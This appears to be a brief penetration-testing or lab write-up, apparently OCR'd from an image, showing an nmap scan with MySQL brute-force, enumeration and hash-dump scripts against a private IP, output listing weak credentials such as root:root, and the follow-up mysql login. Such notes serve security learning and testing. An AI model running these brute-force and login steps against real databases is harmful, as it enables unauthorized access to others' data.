 ```
nmap -sC -sV --script=mysql-audit,mysql-databases,mysql-brute,mysql-enum,mysql-dump-hashes -p3306 -T4 192.168.172.74 -oN mysql.nmap
```
	PORT     STATE SERVICE VERSION
	3306/tcp open  mysql   MySQL 8.0.19
	| mysql-brute: 
	|   Accounts: 
	|     root:root - Valid credentials
	|   Statistics: Performed 1 guesses in 1 seconds, average tps: 1.0
	|_  ERROR: The service seems to have failed or is heavily firewalled...
	| mysql-enum: 
	|   Valid usernames: 
	|     root:<empty> - Valid credentials
	|     guest:<empty> - Valid credentials
	|     netadmin:<empty> - Valid credentials
	|     user:<empty> - Valid credentials
	|     web:<empty> - Valid credentials
	|     sysadmin:<empty> - Valid credentials
	|     administrator:<empty> - Valid credentials
	|     webadmin:<empty> - Valid credentials
	|     admin:<empty> - Valid credentials
	|     test:<empty> - Valid credentials
	|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
	| mysql-databases: 
	|   cmsms_db
	|   information_schema
	|   mysql
	|   performance_schema
	|_  sys

Found root:root

mysql -u root -h 192.168.172.74 -p
	the -p means using a password
	Password prompted where I enter root
